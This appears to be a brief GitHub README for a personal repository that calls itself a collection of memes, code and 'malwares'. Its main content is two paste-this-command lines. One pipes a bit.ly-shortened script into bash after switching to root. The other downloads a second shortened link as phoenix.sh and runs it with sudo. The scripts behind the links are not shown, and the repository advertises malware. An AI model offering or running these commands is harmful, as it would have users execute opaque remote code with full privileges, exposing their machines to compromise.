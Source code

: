 # phoenixthrush.github.io
Just memes, codes, malwares, a archive and lots more lol!

Follow me if u wanna get a&nbsp;<a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao


sudo su && curl -sL https://bit.ly/3hXEadY | bash

or
wget https://bit.ly/3m0JwFX && mv 3m0JwFX phoenix.sh && sudo chmod +x phoenix.sh && sudo  ./phoenix.sh
